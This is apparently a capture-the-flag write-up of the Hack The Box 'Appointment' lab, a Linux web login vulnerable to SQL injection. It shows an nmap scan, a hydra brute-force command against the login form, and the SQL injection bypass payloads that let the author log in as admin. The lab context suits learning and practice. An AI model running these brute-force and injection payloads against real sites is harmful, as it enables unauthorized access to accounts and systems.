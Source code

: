 # Appointment

*Difficulty:* Easy  
*OS:* Linux

## Overview

This machine focuses on SQL injection vulnerabilities. The target runs a website with a login page backed by a database that doesn't properly sanitize user input.

## Reconnaissance

Target IP: 10.129.252.144 (assigned by HTB)
Upon visiting the IP in the browser, I was presented with a login form requesting a username and password

![image](https://github.com/user-attachments/assets/00dd5d1b-12be-4a6e-89c3-0558b86ffe02)


## Enumeration

I have run a quick scan on the Following target by using "Nmap to verify the open ports and find services/versions info" and here are my findings:
_nmap -sC -sV -oN nmap.txt 10.129.252.144_

-sC: runs default scripts
-sV: detects service versions

![image](https://github.com/user-attachments/assets/b841eb25-1fae-45c0-88a0-554919e43243)

The port 80 is open, running "Apache httpd 2.4.38"

## Exploitation

hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt \
      -P /usr/share/wordlists/Passwords/Common-Credentials/10k-most-common.txt \
      10.129.252.144 http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid username or password"
![image](https://github.com/user-attachments/assets/61386209-f121-4b50-90b0-b9c20f6e5ec1)

Suspecting SQL injectio, I tested various payloads manually in the username field, such as < admin'#
admin'-- 
' OR 1=1-- >

Eventually, the combination:
Username: admin'#
Password: abc123


## Post-Exploitation

After successfully logging in using the SQLi bypass, I gained access to the authenticated portion of the web application:
![image](https://github.com/user-attachments/assets/333264ce-b95f-4836-8091-ec0f26fb33a4)


## Lessons Learned

Understanding of SQL injection in login forms.
Hands-on experience with Hydra.
Practiced critical thinking and manual testing techniques.

## References

https://github.com/danielmiessler/SecLists
https://github.com/vanhauser-thc/thc-hydra
https://portswigger.net/web-security/sql-injection/cheat-sheet
